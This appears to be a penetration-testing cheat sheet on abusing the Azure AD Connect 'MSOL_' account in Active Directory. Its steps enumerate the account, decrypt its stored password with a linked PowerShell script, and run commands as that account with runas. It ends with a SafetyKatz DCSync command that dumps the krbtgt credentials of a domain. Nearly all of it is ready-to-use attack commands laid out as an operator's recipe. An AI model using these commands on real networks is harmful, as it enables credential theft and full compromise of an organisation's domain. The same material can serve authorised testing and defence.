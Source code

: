 # Methodology
>1. Enumerate the accounts with the `MSOL_` attribute.
>2. Get administrative privileges on the computer where it's setup.
>3. Read the password.
>4. Run commands as `MSOL_` user.
>5. DCSync (Optional).

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Get the MSOL user and the computer where it's setup:**
```powershell
Get-DomainUser -Identity "MSOL_*" -Domain contoso.local
```

**Retrieve the password:**

https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545#file-azuread_decrypt_msol-ps1
```powershell
.\azuread_decrypt_msol.ps1
```

**Run commands:**
```powershell
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dcsync:**
```cmd
SafetyKatz.exe '"lsadump::dcsync /user:contoso\krbtgt /domain:contoso.local"'
```